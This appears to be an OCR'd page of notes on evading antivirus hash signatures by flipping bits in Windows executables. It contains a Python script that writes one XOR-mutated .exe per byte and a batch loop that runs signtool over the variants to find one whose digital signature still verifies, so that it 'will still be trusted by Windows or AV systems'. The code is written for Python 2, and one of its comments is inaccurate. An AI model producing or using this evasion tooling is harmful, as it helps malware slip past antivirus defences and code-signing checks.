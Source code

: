- Produce a **new hash** (bypass static detection)
- Not break the program
#### How General Bit-flipping Works
---
1. Load a binary file.
2. Iterate over the file byte by byte.
3. Flip a single bit (or modify in a predictable way).
4. Save each mutated version to disk in other words every single bit you flip, you save that new version of the file as a seperate `.exe`.
5. Repeat for many bytes to generate many _variants_, one bit flipped = one variant.
6. Each variant has a **different hash**, but may still function the same.

```python
import sys

# Supply the executable as argument
orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig) # Copy the original list (put each bit as list)
	# XOR the i-th byte with 0xDE (bit-level mutation)
	current[i] = chr(ord(current[i]) ^ 0xde)
	# Save the file as 0.exe, 1.exe, and so on.
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print("done")
```


**Next steps:**
Checking for functional variants, including both:

- Some may crash
- Retain their digital signature (some bits are part of the signature block)

```bash
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a flipped\\%%A.exe
)
```

- Loops from 1 to 10,000 (or however many variants you generated)
- Checks each flipped file like `flipped\1.exe`, `flipped\2.exe`, etc.
- Uses `signtool` to:
    
    - Verify if the **digital signature** is still valid
    - Confirm that the **file is trusted and unchanged in critical parts**

The goal: **Find a bit-flipped version that still passes verification** — meaning it will still be trusted by Windows or AV systems.
